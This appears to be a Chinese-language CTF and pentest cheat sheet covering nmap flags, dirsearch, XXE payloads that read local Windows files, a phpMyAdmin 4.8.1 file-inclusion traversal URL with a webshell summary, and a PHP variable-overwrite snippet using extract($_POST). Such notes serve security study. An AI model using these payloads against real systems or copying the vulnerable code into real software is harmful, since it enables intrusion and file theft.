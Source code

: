 杂项

-6                                                          启动Ipv6扫描

-A                                                          启动Os检测，版本检测，脚本扫描和traceroute

-V                                                          显示版本号

-h                                                          帮助信息
————————————————

原文链接：https://blog.csdn.net/smli_ng/article/details/105964486

## 13.目录扫描

dirseach 

dirsearch -u url

## 14.XXE漏洞

```xml
<?xml version = "1.0"?>
<!DOCTYPE note[ <!ENTITY cc "aa"> ]>
<na>&cc;</na>
```

```xml
<?xml version = "1.0"?>
<!DOCTYPE ANY[ <!ENTITY f SYSTEM "file:///C://Windows//win/ini"> ]>
<x>&f;</x>
```

```xml
<?xml version = "1.0"?>
<!DOCTYPE ANY[ <!ENTITY admin SYSTEM "file:///C://Windows//win/ini"> ]>
<user><username>&admin;</username><password> admin</password></user> 
```

## 15.phpmyadmin 4.8.1 远程文件包含漏洞

总结：

利用phpMyAdmin 4.8.1后台文件包含漏洞，获取登录phpmyadmin系统所产生的sess_sessionID文件，然后通过文件绕过获取相关信息并植入木马，最终获取webshell。通常linux系统中存放路径为/tmp/sess_[当前会话session值]。

### 访问文件

访问`http://x.x.x.x:8080/index.php?target=db_sql.php%253f/../../../../../../../../flag`，可见`flag`被读取，说明文件包含漏洞存在



## 16.变量覆盖

```php
if($_SESSION){
    unset($_SESSION);
}

$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;

extract($_POST);

```
